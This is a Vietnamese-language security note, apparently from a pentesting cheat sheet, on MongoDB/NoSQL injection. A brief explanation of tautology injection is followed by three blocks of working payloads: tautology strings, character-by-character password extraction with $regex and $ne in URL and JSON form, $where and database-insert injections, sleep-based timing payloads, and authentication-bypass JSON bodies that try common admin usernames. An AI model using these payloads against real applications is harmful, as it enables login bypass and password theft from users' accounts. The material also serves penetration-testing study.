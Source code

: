 - Kẻ tấn công có thể khai thác điều này bằng cách nhập các chuỗi như `admin' || 'a'=='a`, khiến truy vấn trả về tất cả tài liệu bằng cách đáp ứng điều kiện với tautology ( 'a'=='a'). Điều này tương tự như các cuộc tấn công tiêm nhiễm SQL trong đó các đầu vào như ' or 1=1-- -được sử dụng để thao tác các truy vấn SQL. Trong MongoDB, việc chèn tương tự có thể được thực hiện bằng cách sử dụng các đầu vào như `' || 1==1//`, `' || 1==1%00` hoặc `admin' || 'a'=='a`.

```sql!
Normal sql: ' or 1=1-- -
Mongo sql: ' || 1==1//    or    ' || 1==1%00     or    admin' || 'a'=='a
```

trích xuất dữ liệu

```sql!
in URL (if length == 3)
username[$ne]=toto&password[$regex]=a.{2}
username[$ne]=toto&password[$regex]=b.{2}
...
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```

```sql!
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```
